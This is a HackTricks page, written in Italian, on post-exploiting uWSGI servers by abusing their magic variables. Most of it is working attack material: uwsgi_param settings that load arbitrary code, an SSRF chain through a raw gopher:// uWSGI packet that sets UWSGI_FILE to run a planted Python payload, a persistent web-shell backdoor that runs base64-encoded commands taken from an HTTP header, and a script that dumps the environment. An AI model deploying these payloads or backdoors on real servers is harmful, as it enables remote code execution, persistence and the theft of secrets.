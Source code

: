 # WSGI Post-Exploitation Tricks

{{#include ../../banners/hacktricks-training.md}}

## Panoramica di WSGI

Web Server Gateway Interface (WSGI) è una specifica che descrive come un web server comunica con le applicazioni web e come le applicazioni web possono essere concatenate per processare una richiesta. uWSGI è uno dei server WSGI più popolari, spesso usato per servire applicazioni web Python.

## Sfruttamento delle magic variables di uWSGI

uWSGI fornisce speciali "magic variables" che possono essere usate per configurare dinamicamente il comportamento del server. Queste variabili possono essere impostate tramite header HTTP e possono portare a gravi vulnerabilità di sicurezza se non vengono validate correttamente.

### Variabili chiave sfruttabili

#### `UWSGI_FILE` - Esecuzione arbitraria di file
```
uwsgi_param UWSGI_FILE /path/to/python/file.py;
```
Questa variabile permette di caricare ed eseguire file Python arbitrari come applicazioni WSGI. Se un attaccante può controllare questo parametro, può ottenere Remote Code Execution (RCE).

#### `UWSGI_SCRIPT` - Caricamento di script
```
uwsgi_param UWSGI_SCRIPT module.path:callable;
uwsgi_param SCRIPT_NAME /endpoint;
```
Carica uno script specificato come nuova applicazione. Combinato con funzionalità di upload o di scrittura di file, questo può portare a RCE.

#### `UWSGI_MODULE` e `UWSGI_CALLABLE` - Dynamic Module Loading
```
uwsgi_param UWSGI_MODULE malicious.module;
uwsgi_param UWSGI_CALLABLE evil_function;
uwsgi_param SCRIPT_NAME /backdoor;
```
Questi parametri permettono di caricare moduli Python arbitrari e chiamare funzioni specifiche al loro interno.

#### `UWSGI_SETENV` - Environment Variable Manipulation
```
uwsgi_param UWSGI_SETENV DJANGO_SETTINGS_MODULE=malicious.settings;
```
Può essere usato per modificare le variabili d'ambiente, potenzialmente influenzando il comportamento dell'applicazione o caricando una configurazione dannosa.

#### `UWSGI_PYHOME` - Manipolazione dell'ambiente Python
```
uwsgi_param UWSGI_PYHOME /path/to/malicious/venv;
```
Modifica l'ambiente virtuale Python, potenzialmente caricando pacchetti malevoli o interpreti Python diversi.

#### `UWSGI_CHDIR` - Directory Traversal
```
uwsgi_param UWSGI_CHDIR /etc/;
```
Modifica la directory di lavoro prima di elaborare le richieste, cosa che può essere sfruttata per attacchi di path traversal.

## SSRF + Gopher verso

### Vettore d'attacco

Quando uWSGI è accessibile tramite SSRF (Server-Side Request Forgery), gli attaccanti possono interagire con il socket interno di uWSGI per sfruttare le magic variables. Questo è particolarmente pericoloso quando:

1. L'applicazione ha vulnerabilità SSRF
2. uWSGI è in esecuzione su una porta/socket interna
3. L'applicazione non valida correttamente le magic variables

uWSGI è accessibile a causa di SSRF perché il file di configurazione `uwsgi.ini` contiene: `socket = 127.0.0.1:5000`, rendendolo accessibile dall'applicazione web tramite SSRF.

### Esempio di sfruttamento

#### Passo 1: Crea un payload maligno

Prima, inietta codice Python in un file accessibile dal server (scrittura di file dentro il server, l'estensione del file non importa):
```python
# Payload injected into a JSON profile file
import os
os.system("/readflag > /app/profiles/result.json")
```
#### Passo 2: Costruisci richiesta del protocollo uWSGI
Usa il protocollo Gopher per inviare pacchetti uWSGI raw:
```
gopher://127.0.0.1:5000/_%00%D2%00%00%0F%00SERVER_PROTOCOL%08%00HTTP/1.1%0E%00REQUEST_METHOD%03%00GET%09%00PATH_INFO%01%00/%0B%00REQUEST_URI%01%00/%0C%00QUERY_STRING%00%00%0B%00SERVER_NAME%00%00%09%00HTTP_HOST%0E%00127.0.0.1%3A5000%0A%00UWSGI_FILE%1D%00/app/profiles/malicious.json%0B%00SCRIPT_NAME%10%00/malicious.json
```
Questo payload:
- Si connette a uWSGI sulla porta 5000
- Imposta `UWSGI_FILE` per puntare al file dannoso
- Forza uWSGI a caricare ed eseguire il codice Python

### Struttura del protocollo uWSGI

Il protocollo uWSGI utilizza un formato binario in cui:
- Le variabili sono codificate come stringhe con prefisso di lunghezza
- Each variable has: `[name_length][name][value_length][value]`
- Il pacchetto inizia con un'intestazione che contiene la dimensione totale

## Post-Exploitation Techniques

### 1. Persistent Backdoors

#### File-based Backdoor
```python
# backdoor.py
import subprocess
import base64

def application(environ, start_response):
cmd = environ.get('HTTP_X_CMD', '')
if cmd:
result = subprocess.run(base64.b64decode(cmd), shell=True, capture_output=True, text=True)
response = f"STDOUT: {result.stdout}\nSTDERR: {result.stderr}"
else:
response = "Backdoor active"

start_response('200 OK', [('Content-Type', 'text/plain')])
return [response.encode()]
```
Quindi usa `UWSGI_FILE` per caricare this backdoor:
```
uwsgi_param UWSGI_FILE /tmp/backdoor.py;
uwsgi_param SCRIPT_NAME /admin;
```
#### Environment-based Persistence
```
uwsgi_param UWSGI_SETENV PYTHONPATH=/tmp/malicious:/usr/lib/python3.8/site-packages;
```
### 2. Divulgazione di informazioni

#### Dumping delle variabili d'ambiente
```python
# env_dump.py
import os
import json

def application(environ, start_response):
env_data = {
'os_environ': dict(os.environ),
'wsgi_environ': dict(environ)
}

start_response('200 OK', [('Content-Type', 'application/json')])
return [json.dumps(env_data, indent=2).encode()]
```
#### Accesso al file system
Usa `UWSGI_CHDIR` combinato con file serving per accedere a file sensibili:
```
uwsgi_param UWSGI_CHDIR /etc/;
uwsgi_param UWSGI_FILE /app/file_server.py;
```
### 3. Elevazione dei privilegi

#### Manipolazione dei socket
Se uWSGI viene eseguito con privilegi elevati, gli attaccanti potrebbero manipolare i permessi dei socket:
```
uwsgi_param UWSGI_CHDIR /tmp;
uwsgi_param UWSGI_SETENV UWSGI_SOCKET_OWNER=www-data;
```
#### Sovrascrittura della configurazione
```python
# malicious_config.py
import os

# Override uWSGI configuration
os.environ['UWSGI_MASTER'] = '1'
os.environ['UWSGI_PROCESSES'] = '1'
os.environ['UWSGI_CHEAPER'] = '1'
```
## Riferimenti

- [uWSGI Magic Variables Documentation](https://uwsgi-docs.readthedocs.io/en/latest/Vars.html)
- [IOI SaveData CTF Writeup](https://bugculture.io/writeups/web/ioi-savedata)
- [uWSGI Security Best Practices](https://uwsgi-docs.readthedocs.io/en/latest/Security.html)

{{#include ../../banners/hacktricks-training.md}}

